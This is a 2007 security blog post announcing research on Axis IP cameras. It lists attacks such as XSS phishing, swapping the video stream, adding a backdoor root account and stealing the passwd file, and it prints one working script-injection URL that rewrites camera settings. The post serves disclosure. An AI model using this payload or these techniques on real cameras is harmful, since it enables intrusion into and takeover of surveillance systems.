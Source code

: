 ```yaml
---
title: Owning Big Brother - Hollywood-style Exploits Included!
author: pagvac
date: Fri, 28 Sep 2007 18:43:14 GMT
template: post.pug
---
```


I've done some research on Axis IP cameras, which now I am able to disclose to you and reveal some of the magic. Although this is not independent research, I am mentioning it here as it may interest some.

The research is made of two components: a purple paper (one of the traditions we follow in GNUCITIZEN) and a video. I promise you that I won't bore you with PoCs, but actual Hollywood-style exploits. This includes the classic attack in which the legitimate video stream gets replaced by another stream that keeps looping forever (remember [Speed](http://en.wikipedia.org/wiki/Speed_(film))). We even created a [demo video](//www.youtube.com/watch?v=CEaasduNWBE) of this attack! Blame [Major Malfunction](http://www.alcrypto.co.uk/) (soon to be featured) for this, as he suggested the third-party-video infinite loop technique.

Here are some of the juicy bits, mentioned in the paper:

* Cross-browser XSS phishing
* Replacing the legitimate video stream with our own
* Adding a Backdoor Root Account
* Stealing the 'passwd' File

Here is an example of an exploit that we've come up with. You don't know what it is doing? Well, read the paper for more details:

	http://target/%3cscript%20src=%22/this_server/ServerManager.sr
	v%3fconf_Layout_TitleEnabled=yes&Layout_TitleEnabled=on&conf_L
	ayout_OwnTitleEnabled=yes&conf_Layout_OwnTitle=%3cimg%20src=ht
	tp://snipu.com/f1%3e%3c!--
	&servermanager_do=set_variables%22%3e%3c/script%3e%3c!--
	AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
	AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
	AAAAAAAAAAAAAAAAAAAAAAAAAAAAA

